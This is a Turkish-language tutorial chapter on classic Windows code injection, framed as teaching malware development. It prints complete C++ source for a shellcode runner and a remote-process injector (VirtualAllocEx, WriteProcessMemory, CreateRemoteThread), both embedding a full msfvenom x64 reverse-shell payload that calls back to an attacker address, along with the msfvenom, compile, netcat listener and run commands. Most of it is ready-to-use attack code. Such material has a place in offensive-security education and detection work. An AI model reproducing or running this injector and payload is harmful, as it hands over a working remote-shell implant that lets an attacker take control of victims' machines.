


\newpage
\subsection{4. klasik kod enjeksiyonu i̇şlemine: basit c++ zararlı yazılım}\label{4. klasik kod enjeksiyonu i̇şlemine: basit c++ zararlı yazılım}    

﷽

{width="75%"}

Kod enjeksiyonu hakkında konuşalım. Kod enjeksiyonu nedir ve neden yaparız?    

Kod enjeksiyonu tekniği, bir işlemin (bizim durumumuzda zararlı yazılımımız), başka bir çalışan sürece kod enjekte etmesi yöntemidir.   

Örneğin, elinizde bir zararlı yazılım var. Bu, bir phishing saldırısından gelen bir dropper veya hedefinize ulaştırmayı başardığınız bir trojan olabilir ya da kodunuzu çalıştıran herhangi bir şey olabilir. Ve bir sebeplerden dolayı payload'ı başka bir işlemde çalıştırmak istemiş olabilirsiniz.Bu ne anlama geliyor?Bu yazıda amacımız bir trojan yaratmak değil,mesela diyelim payload’ınız bir `word.exe` dosyasının içinde çalıştırılabilir ama bunun da çalışma zamanı kısıtlı oluyor. Diyelim ki uzaktan bir shell elde ettiniz, ancak kurbanınız `word.exe`'yi kapattı. Bu durumda, oturumunuzu korumak istiyorsanız başka bir sürece geçmeniz gerekir.     

Bu yazıda, Debugging API kullanarak payload enjeksiyonu yapan klasik bir tekniği tartışacağız.    

İlk önce payload’ımızı hazırlamış olalım. Basitlik açısından, Kali Linux'tan `msfvenom` ters kabuk yükü kullanacağız.      

Saldırganın makinsesinde çalıştır:
```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

Burda `10.9.1.6` saldırgan makinesinin adresi, `4444` ise sonra dinleyeceğimiz port oluyor.    

{width="75%"}

Zararlı yazılımımızın basit bir C++ koduyla başlayalım:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Kodun çoğunu anlamazsanız sorun değil.İleride bu tür benzer hileleri ve kod parçalarını sık sık kullanacağım. Kitabı okudukça, kavramları ve temel şeyleri daha iyi anlayacaksınız.     

İlk önce kontrol edlelim.       

Derleyelim:    

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

{width="75%"}

dinleyicimici de hazırlayalım:   

```bash
nc -lvp 4444
```

Ve hedef makinesinde çalıştıralım:

```powershell
.\evil.exe
```

{width="75%"}

Gördüğünüz her şey doğru.   

`evil.exe`'yi incelemek için Process Hacker'ı kullanacağız. [Process Hacker](https://processhacker.sourceforge.io/downloads.php), bir cihazda hangi işlemlerin çalıştığını görmenize, CPU kaynaklarını tüketen programları tanımlamanıza ve bir işlemle ilişkili ağ bağlantılarını belirlemenize olanak tanıyan açık kaynaklı bir araçtır.    

{width="75%"}

Ardından, Ağ (`Network`) sekmesinde, işlemimizin `10.9.1.6:4444` (saldırganın makinesi) ile bağlantı kurduğunu göreceğiz:     

{width="75%"}

Şimdi payload’ımzı bir sürece enjekte edelim. Örneğin, `calc.exe`. Yapmak istediğiniz şey, bir hedef sürece geçmek veya başka bir deyişle,payload’ınızın aynı makinedeki başka bir süreçte (örneğin `calc.exe` içinde) bir şekilde çalışmasını sağlamaktır.

{width="75%"}

İlk adım, hedef süreciniz içinde bir miktar bellek ayırmaktır ve tamponun boyutu, en azından payload'unuzun boyutu kadar olmalıdır:

{width="75%"}

Daha sonra payload'unuzu, `calc.exe` hedef sürecine ayrılmış belleğe kopyalarsınız:

{width="75%"}

Ardından, sistemden payload'unuzu hedef süreçte, yani `calc.exe`'de çalıştırmaya başlamasını "isteyin":     

{width="75%"}

Şimdi bu basit mantığı kodlayalım.    

Bunu yapmak için en yaygın yöntem, Windows'un hata ayıklama (debugging) amaçlı sağladığı yerleşik API işlevlerini kullanmaktır. Bunlar şunlardır:      

- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Çok temel bir örnek:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

İlk olarak, işlemin PID'sini almanız gerekiyor. Bu PID'yi kendiniz girebilirsiniz.     

Sonra, `Kernel32` kütüphanesi tarafından sağlanan [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) fonksiyonuyla işlemi açın:    

{width="75%"}

Ardından, `VirtualAllocEx` kullanarak uzak işlem için bir bellek tamponu ayırabilirsiniz **(1)**:

{width="75%"}

Daha sonra, `WriteProcessMemory` kullanarak işlemler arasında veri kopyalayabilirsiniz, yani payload'u `calc.exe` işlemine kopyalayın **(2)**. Ve `CreateRemoteThread`, `CreateThread` fonksiyonuna benzer, ancak bu fonksiyonda hangi işlemin yeni bir thread başlatacağını belirtebilirsiniz **(3)**.

Şimdi bu kodu derleyelim:    

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

{width="75%"}

dinleyiciyi hazırlayalım:
```bash
nc -lvp 4444
```

ve ilk önce hedef makinesinde `calc.exe` çalıştıralım:    

{width="75%"}

`calc.exe`'nin işlem kimliğinin (PID) 1844 olduğunu görebiliriz.    
Daha sonra hedef makinede enjektörümüzü çalıştırın:

```powershell
.\evil2.exe 1844
```

{width="75%"}

Ve öncelikle, `calc.exe`'nin ID'sinin aynı olduğunu ve `evil2.exe`'nin yeni bir işlem olan `cmd.exe`'yi oluşturduğunu görebiliriz. Ayrıca, Ağ (`Network`) sekmesinde payload'umuzun çalıştığını görebiliriz (çünkü `calc.exe` saldırganın makinesiyle bağlantı kuruyor):     

{width="75%"}

Daha sonra, `calc.exe` sürecini inceleyelim. `Memory` (Bellek) sekmesine gidin ve ayırdığımız bellek tamponunu arayın.    

{width="75%"}

Çünkü kaynak koda bakarsanız, uzak süreçte çalıştırılabilir ve okunabilir bir bellek tamponu ayırıyoruz:    

{width="75%"}

Bu nedenle, Process Hacker'da arama yapabilir ve korumaya göre sıralayabilirsiniz. Aşağı kaydırarak hem okunabilir hem de çalıştırılabilir olan bir bölgeyi bulun:

{width="75%"}

`calc.exe`'nin belleğinde bu türden birçok bölge bulunabilir.     

Ancak, `calc.exe`'nin `ws2_32.dll` modülünü yüklediğine dikkat edin, bu normal koşullarda asla olmamalıdır, çünkü bu modül soket yönetiminden sorumludur:     

{width="75%"}

Bu şekilde kodunuzu başka bir sürece enjekte edebilirsiniz.      

Ancak, burada bir uyarı var. Yazma erişimi ile başka bir süreci açmak belirli kısıtlamalara tabidir. Bu korumalardan biri Mandatory Integrity Control (MIC) olarak adlandırılır. MIC, nesnelere erişimi "Bütünlük seviyesi" temelinde kontrol eden bir koruma yöntemidir. Integrity seviyeleri şunlardır:     
- *low level* - sistemin çoğuna erişimi kısıtlanmış süreçler (örneğin, internet explorer)    
- *medium level* - ayrıcalıklı olmayan kullanıcılar tarafından başlatılan herhangi bir süreç için varsayılan seviye ve ayrıca UAC etkinse yönetici kullanıcıları için de geçerlidir.     
- *high level* - yönetici ayrıcalıklarıyla çalışan süreçler.     
- *system level* - `SYSTEM` kullanıcıları tarafından, genellikle en yüksek koruma gerektiren sistem hizmetleri ve süreçler için kullanılır.     

Şimdilik bu konuya fazla girmeyeceğiz. Öncelikle bunu kendim anlamaya çalışacağım.     

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    

[Kaynak kod Github’ta:](https://github.com/cocomelonc/2021-09-19-injection-1)
